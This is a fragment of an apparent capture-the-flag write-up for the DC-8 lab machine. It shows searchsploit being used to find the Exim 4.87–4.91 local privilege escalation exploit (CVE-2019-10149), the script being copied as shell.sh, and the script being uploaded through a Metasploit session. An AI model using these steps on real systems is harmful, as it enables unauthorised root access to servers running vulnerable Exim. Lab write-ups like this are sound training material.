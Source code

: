 ```
└─# searchsploit -p 46996                                                                                                                                                                                              2 ⨯
  Exploit: Exim 4.87 - 4.91 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46996
     Path: /usr/share/exploitdb/exploits/linux/local/46996.sh
    Codes: CVE-2019-10149
 Verified: True
File Type: Bourne-Again shell script, ASCII text executable

```

`searchsploit -x 46996`
![image-20231230235225650](DC-8.assets/image-20231230235225650.png)

```
cp /usr/share/exploitdb/exploits/linux/local/46996.sh shell.sh
```

msf上传文件

```
upload /root/shell.sh ./
```
